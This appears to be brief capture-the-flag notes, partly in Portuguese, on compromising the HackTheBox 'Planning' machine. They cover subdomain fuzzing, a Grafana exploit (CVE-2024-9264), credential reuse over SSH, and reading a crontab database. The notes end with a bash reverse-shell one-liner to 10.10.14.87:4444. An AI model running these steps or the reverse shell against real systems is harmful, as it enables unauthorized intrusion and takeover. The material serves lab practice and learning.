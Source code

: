 nmap: 22,80

ffuf -w /seclist/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.planning.htb" -u http://planning.htb/ -fc 301: grafana

grafana CVE-2024-9264
https://github.com/nollium/CVE-2024-9264

env
ele da login e senha do enzo

ssh enzo@ip
ja obitivemos a user.txt


cat /opt/crontabs/crontab.db

netstat -tuln
sh -L 8000:127.0.0.1:8000 enzo@planning.htb
root:senha do crontabs

/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.87/4444 0>&1'
terminado com a flag root


